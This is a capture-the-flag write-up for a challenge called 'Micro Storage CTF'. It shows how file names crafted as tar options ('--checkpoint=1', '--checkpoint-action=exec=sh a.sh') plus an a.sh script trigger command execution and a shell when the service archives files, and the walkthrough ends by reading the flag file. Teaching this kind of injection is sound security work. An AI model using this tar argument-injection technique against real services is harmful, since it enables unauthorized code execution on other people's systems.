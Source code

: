 # Micro Storage CTF

Micro Storage CTF is a quick glimpse into remote code execution via improper scripting. It shows how you need to be careful with the tools you use and to always sanitize user inputs.

## Enumeration

Connect to the DockerApp with `nc` using the command:

```zsh
nc <IP_ADDR> <PORT>
```

![Image](images/1.png)

Here, you are can see that there are options to upload, list, delete, print and archive your files. We can make a demo file called `TEST` and test all the options provided.

![Image](images/2.png)

Note: You cannot type `/`,`$`,`%`,`*`,`()`,`{}`,`!` and other special characters as the name of a file, however you can type `=`,`.`,`-` in the name of the file.

When picking the 5th option, it gives the following:

```zsh
>>> Choose an option: 5
[+] Your base64 encoded archive:
VEVTVAAAAAAAAAAAAAAAAAAAAAAAAAA ... AAAAAAAAAAAAAAA==
```

You can copy the output and run it through cyberchef (https://gchq.github.io/CyberChef/):

![Image](images/3.png)

Here, you can see that `tar` as been used to archive the folders, which means that we have to look into the tar command and see if there is any way to achieve remote code execution.

## Exploit 

Check out this link for more info on executing commands with `tar`: https://www.gnu.org/software/tar/manual/html_section/external.html

Since we can name the files whatever we want, we will be naming them as parameters for the `tar` command in order to get a shell.

**Step 1: Set up checkpoint**

```zsh
>>> Choose an option: 1
[*] Enter your file name: --checkpoint=1
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "--checkpoint=1" has been saved. (0 bytes written)

```

This enables the tar command to wait and execute an arbitrary action before continuing with archiving.

**Step 2: Set up action**

```zsh
>>> Choose an option: 1
[*] Enter your file name: --checkpoint-action=exec=sh a.sh
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "--checkpoint-action=exec=sh a.sh" has been saved. (0 bytes written)
```

This sets up `tar` to execute a file called `a.sh` in its local directory (Since we can't use `./` we use the `sh` command)

**Step 3: Set up a.sh**

```zsh
>>> Choose an option: 1
[*] Enter your file name: a.sh
[*] Start typing your file content: (send 'EOF' when done)
#!/bin/sh

/bin/sh

EOF
[+] Your file "a.sh" has been saved. (20 bytes written)
```

This sets up `a.sh` to give us a shell when it is executed.

Run the 5th option(Compress and download all your files) and you will be given a shell (It will appear blank, but it works, just type your commands and execute)

You can find the flag with `cat /flag.txt`
